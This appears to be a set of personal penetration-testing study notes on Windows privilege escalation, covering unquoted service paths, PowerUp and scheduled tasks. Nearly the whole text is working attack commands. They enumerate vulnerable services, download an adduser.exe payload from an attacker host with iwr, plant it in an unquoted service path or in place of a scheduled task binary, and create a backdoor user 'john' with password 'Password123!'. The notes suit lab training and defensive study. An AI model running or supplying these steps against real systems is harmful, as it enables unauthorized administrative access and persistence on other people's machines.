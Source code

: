 
### Unquoted Service Paths

enumerating running and stoped services
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

to list the services vuln to this vuln, run this in cmd
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
check if we an start adn stop that service by running 
```
Start-Service GammaService
```

we then trf over the adduser.exe and save it as current.exe
```
iwr -uri http://192.168.48.3/adduser.exe -Outfile Current.exe
```
```
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

### POWERUP UNQUOTED SERVICE PATH
run this in powerup
```
Get-UnquotedService
```
to find files vuln the nrun this 
```
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
path should be the vuln path, adn it wil create a user called john with the pwd `Password123!`
```
Restart-Service GammaService
```

## Scheduled Tasks

run below cmd to see scheduled tasks
```
schtasks /query /fo LIST /v
```

```
iwr -Uri http://192.168.48.3/adduser.exe -Outfile BackendCacheCleanup.exe
```

```
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
```

```
move .\BackendCacheCleanup.exe .\Pictures\
```
